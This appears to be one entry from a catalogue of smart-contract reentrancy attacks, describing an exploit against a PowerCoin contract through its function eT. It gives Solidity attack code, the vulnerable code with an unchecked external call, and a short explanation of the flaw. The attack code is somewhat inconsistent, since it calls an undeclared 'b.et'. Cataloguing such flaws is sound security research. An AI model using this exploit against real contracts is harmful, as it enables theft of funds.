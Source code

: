 #########
Attack 14
#########

**Contract Name**

PowerCoin

**Contract Address**

0x5689774160fb27235337d328b45664e0d33f05c1

**Transaction Count**

1

**Invovled Ethers**

0 Ethers

**Length of the Call Chain**

1 external function

**Victim Function**

``eT``

**Attack Mechanisim**

Attack code:
::

    contract Attack is IERC20Token{
        PowerCoin p = new PowerCoin();
        constructor() payable {}

        function deposit() public {   // Disguised attack function
            //victim.call.value(1 eth)(bytes4(keccak256("contribution(uint256)")), 10);
            b.et(this, 10, 10);
        }

        function() payable {
            b.et(this, 10, 10);
        }

        function getvalue() returns (uint) {
            return this.balance;
        }
    }

Attacked code:
::

    contract PowerCoin is Ownable, StandardToken {
        string public name = "CapricornCoin";
        string public symbol = "CCC";
        uint public decimals = 18;                  // token has 18 digit precision

        uint public totalSupply = 10 * (10**6) * (10**18);  // 10 Million Tokens

        event ET(address indexed _pd, uint _tkA, uint _etA);

        function eT(address _pd, uint _tkA, uint _etA) returns (bool success) {
            balances[msg.sender] = safeSub(balances[msg.sender], _tkA);
            balances[_pd] = safeAdd(balances[_pd], _tkA);
            if (!_pd.call.value(_etA)()) revert();
            ET(_pd, _tkA, _etA);
            return true;
        }
    }

In this case, the attacker can lauch reentrancy attack by calling ``_pd.call.value(_etA)()``, because ``_pd`` is tainted and there are not any conditions to check the value of transaction destination. 

**Attack.** The attacker can call ``deposit`` to start attack.